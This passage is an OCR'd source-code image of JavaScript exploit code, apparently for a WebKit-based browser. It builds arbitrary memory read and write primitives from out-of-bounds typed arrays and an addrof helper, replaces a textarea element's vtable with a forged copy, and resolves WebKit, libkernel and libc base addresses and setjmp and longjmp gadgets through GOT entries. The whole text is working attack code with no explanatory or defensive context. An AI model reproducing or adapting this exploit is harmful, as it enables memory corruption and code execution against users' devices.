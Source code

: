   for (var i = 0; i < x.length; i++)
    ans += String.fromCharCode(x[i]);
  return ans;
}
function write_mem(p, data) {
  i48_put(p, oob_master);
  oob_master[6] = data.length;
  for (var i = 0; i < data.length; i++)
    oob_slave[i] = data[i];
}
function read_ptr_at(p) {
  var ans = 0;
  var d = read_mem(p, 8);
  for (var i = 7; i >= 0; i--)
    ans = 256 * ans + d[i];
  return ans;
}
function write_ptr_at(p, d) {
  var arr = [];
  for (var i = 0; i < 8; i++) {
    arr.push(d & 0xff);
    d /= 256;
  }
  write_mem(p, arr);
}
function hex(x) {
  return (new Number(x)).toString(16);
}
var malloc_nogc = [];
function malloc(sz) {
  var arr = new Uint8Array(sz);
  malloc_nogc.push(arr);
  return read_ptr_at(addrof(arr) + 0x10);
}
var tarea = document.createElement('textarea');
var real_vt_ptr = read_ptr_at(addrof(tarea) + 0x18);
var fake_vt_ptr = malloc(0x400);
write_mem(fake_vt_ptr, read_mem(real_vt_ptr, 0x400));
write_ptr_at(addrof(tarea) + 0x18, fake_vt_ptr);
var real_vtable = read_ptr_at(fake_vt_ptr);
var fake_vtable = malloc(0x2000);
write_mem(fake_vtable, read_mem(real_vtable, 0x2000));
write_ptr_at(fake_vt_ptr, fake_vtable);
var fake_vt_ptr_bak = malloc(0x400);
write_mem(fake_vt_ptr_bak, read_mem(fake_vt_ptr, 0x400));
var plt_ptr = read_ptr_at(fake_vtable) - 10063176;
function get_got_addr(idx) {
  var p = plt_ptr + idx * 16;
  var q = read_mem(p, 6);
  if (q[0] != 0xff || q[1] != 0x25)
    throw "invalid GOT entry";
  var offset = 0;
  for (var i = 5; i >= 2; i--)
    offset = offset * 256 + q[i];
  offset += p + 6;
  return read_ptr_at(offset);
}
var webkit_base = read_ptr_at(fake_vtable);
var libkernel_base = get_got_addr(705) - 0x10000;
var libc_base = get_got_addr(582);
var saveall_addr = libc_base + 0x2e2c8;
var loadall_addr = libc_base + 0x3275c;
var setjmp_addr = libc_base + 0xbfae0;
var longjmp_addr = libc_base + 0xbfb30;